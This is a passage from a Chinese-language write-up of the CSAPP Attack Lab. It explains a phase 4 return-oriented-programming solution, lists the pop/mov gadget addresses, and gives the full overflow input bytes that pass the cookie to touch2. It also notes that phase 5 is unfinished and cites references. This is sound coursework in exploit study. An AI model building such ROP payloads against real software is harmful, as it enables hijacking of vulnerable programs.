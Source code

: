 这里可以看到0x4019ab和0x4019a2处分别是pop和mov指令，并且可以操作rdi，所以可以考虑利用这两处指令完成操作。

梳理调用逻辑，这里需要的是：

* cookie入栈
* 执行pop，cookie存入rax
* 执行mov，cookie存入rdi
* 调用touch2

最后得到输入串：

```shell
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
cc 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```

攻击效果：

![image-20220814203244469](https://raw.githubusercontent.com/Abug0/Typora-Pics/master/pics/Typora20220814203251.png)

### ROP(phase 5)

（暂未完成）

## 参考文章

[attacklab.pdf](http://csapp.cs.cmu.edu/3e/attacklab.pdf)

[Introduction to CSAPP（二十）：这可能是你能找到的最具捷径的attacklab了](https://zhuanlan.zhihu.com/p/104340864)

[CSAPP：Attack Lab —— 缓冲区溢出攻击实验](https://blog.csdn.net/qq_36894564/article/details/72863319)

[64位linux系统：栈溢出+ret2libc ROP attack](https://www.superweb999.com/article/1005924.html)

[缓冲区溢出：攻防对抗](https://github.com/YuZhang/Security-Courseware/blob/master/buffer-overflow/buffer-overflow-3.md)

[rop链攻击原理与思路(x86/x64)](https://bbs.pediy.com/thread-257238.htm)
